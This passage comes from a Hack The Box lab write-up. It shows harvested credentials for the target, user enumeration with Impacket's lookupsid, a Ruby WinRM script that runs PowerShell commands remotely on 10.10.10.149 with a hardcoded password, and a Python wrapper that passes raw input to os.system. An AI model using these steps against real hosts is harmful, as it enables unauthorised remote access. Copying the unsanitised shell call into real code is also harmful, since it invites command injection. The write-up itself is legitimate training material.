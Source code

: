 ### PowerShell Remoting (sort of)

For one, we know that this credential (`hazard:stealh1agent`) is valid from `smbmap`.


{% include image.html image_alt="c1d55bc2.png" image_src="/3e3f243a-f58a-4daf-acd3-ad18f57074f1/c1d55bc2.png" %}


You might ask what's next? Well, WinRM is open, isn't it? We can make use of the WinRM Ruby library, combined with a Python shell to "simulate" a PowerShell session.

Unfortunately, that isn't the correct credential. We need to determine more usernames. Enter Impacket's `lookupsid.py`. This nifty script, combined with `hazard`'s credential will help us in gathering the username we need.


{% include image.html image_alt="b54e3aec.png" image_src="/3e3f243a-f58a-4daf-acd3-ad18f57074f1/b54e3aec.png" %}


Long story short, this credential (`chase:Q4)sJu\Y8qz*A3?d`) is the right combination.

<div class="filename"><span>cmd.rb</span></div>

~~~~ruby
require 'winrm'

opts = {
        endpoint: 'http://10.10.10.149:5985/wsman',
        user: 'chase',
        password: 'Q4)sJu\Y8qz*A3?d',
}

# Powershell commands
cmd = ARGV[0]

conn = WinRM::Connection.new(opts)
conn.shell(:powershell) do |shell|
        output = shell.run(cmd) do |stdout, stderr|
                STDOUT.print stdout
        STDERR.print stderr
        end
#       puts "The script exited with exit code #{output.exitcode}"
end
~~~~

This script takes in one argument: the command to run in PowerShell runspace. Next up, we have a rudimentary Python shell that sends the command to the ruby script.

<div class="filename"><span>shell.py</span></div>

~~~~python
from cmd import Cmd
import os

class Shell(Cmd):

        def do_quit(self, line):
                """Quits the shell"""
                print "Quiting"
                raise SystemExit

        def default(self, line):
                os.system("ruby cmd.rb " + "'" + line + "'")

if __name__ == "__main__":

        s = Shell()
        s.prompt = 'PS> '
~~~~

[1]: https://www.hackthebox.eu/home/machines/profile/201
[2]: https://www.hackthebox.eu/home/users/profile/8308
[3]: https://www.hackthebox.eu/